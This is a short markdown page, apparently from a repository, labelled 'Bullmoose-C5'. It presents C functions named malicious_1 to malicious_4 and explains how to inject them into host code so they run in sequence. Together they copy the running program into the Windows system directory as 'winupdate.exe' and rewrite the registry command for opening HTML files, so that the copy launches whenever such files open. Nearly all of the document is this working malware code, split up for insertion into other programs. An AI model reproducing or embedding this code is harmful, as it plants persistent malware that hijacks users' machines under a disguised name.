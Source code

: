 # Bullmoose-C5

Bullmoose-C5 is `111432`.

```c
char MyPath[256];
char CpyPath[256];
HKEY Key32;
```

The `*` in `malicious_*` is the order injecting in the host code.

The `*` in `if ((* - order) == 1)` is the order that malicious code should run.

The `*` in `if (unorder == 3)` is the number of repetition.

```c
void malicious_1() {
  pthread_mutex_lock(&mutex);
  if ((1 - order) == 1) {
    unorder++;
    if (unorder == 3) {
      order = 1;
      GetModuleFileName(NULL, MyPath, sizeof(MyPath));
      GetSystemDirectory(CpyPath, sizeof(CpyPath));
    }
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_2() {
  pthread_mutex_lock(&mutex);
  if ((4 - order) == 1) {
    order = 4;
    CopyFile(MyPath, CpyPath, FALSE);
    RegSetValueEx(Key32, "", 0, REG_SZ, CpyPath, strlen(CpyPath));
    RegCloseKey(Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_3() {
  pthread_mutex_lock(&mutex);
  if ((3 - order) == 1) {
    order = 3;
    RegOpenKeyEx(HKEY_CLASSES_ROOT, 
      "htmlfile\\shell\\opennew\\command", 0,
      KEY_WRITE, &Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_4() {
  pthread_mutex_lock(&mutex);
  if ((2 - order) == 1) {
    order = 2;
    strcat(CpyPath, "\\winupdate.exe");
    strcat(CpyPath, " %1");
  }
  pthread_mutex_unlock(&mutex);
}
```